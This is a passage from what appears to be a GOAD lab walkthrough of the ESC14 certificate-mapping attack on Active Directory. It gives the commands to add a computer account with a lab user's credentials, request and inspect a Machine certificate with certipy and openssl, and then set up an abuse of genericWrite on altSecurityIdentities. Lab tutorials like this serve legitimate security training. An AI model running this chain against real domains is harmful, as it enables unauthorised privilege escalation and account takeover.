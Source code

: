 - First create a computer with a dns hostname and an SPN.

```bash
addcomputer.py -method ldaps -computer-name 'esc14computer$' -computer-pass 'Il0veCertific@te' -dc-ip 192.168.56.12 essos/missandei:fr3edom@192.168.56.12
```

![part14_esc14_addcomputer.png](/assets/blog/GOAD/part14_esc14_addcomputer.png)

- Then we ask for the certificate of our created computer

```bash
certipy req -target braavos.essos.local -u 'esc14computer$@essos.local' -p 'Il0veCertific@te' -dc-ip 192.168.56.12 -template Machine -ca ESSOS-CA -debug
```

![part14_esc14_reqcomputer.png](/assets/blog/GOAD/part14_esc14_reqcomputer.png)

- Let's review the certificate attributes

```bash
# extract the crt
certipy cert -pfx esc14computer.pfx  -nokey -out "esc14computer.crt"
# show informations
openssl x509 -in esc14computer.crt -noout -text
```

![part14_esc14_certinfos.png](/assets/blog/GOAD/part14_esc14_certinfos.png)

- With our genericWrite permission we can change the attribute altSecurityIdentities of khal.drogo
